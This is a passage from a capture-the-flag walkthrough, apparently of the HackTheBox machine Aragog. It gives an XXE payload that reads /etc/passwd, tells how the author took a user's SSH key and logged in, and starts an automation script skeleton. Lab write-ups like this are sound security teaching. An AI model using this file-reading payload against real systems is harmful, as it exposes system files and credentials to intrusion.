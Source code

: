 We adapt to our cenario and read the /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<details>
    <subnet_mask>&file;</subnet_mask>
    <test></test>
</details>
```

And we see that we can read files

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:10:28.png)

And we get the ssh key from florian

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:11:18.png)

And we logged in a ssh session

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:12:01.png)

Now, let's automate it.

# Auto Shell Florian

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
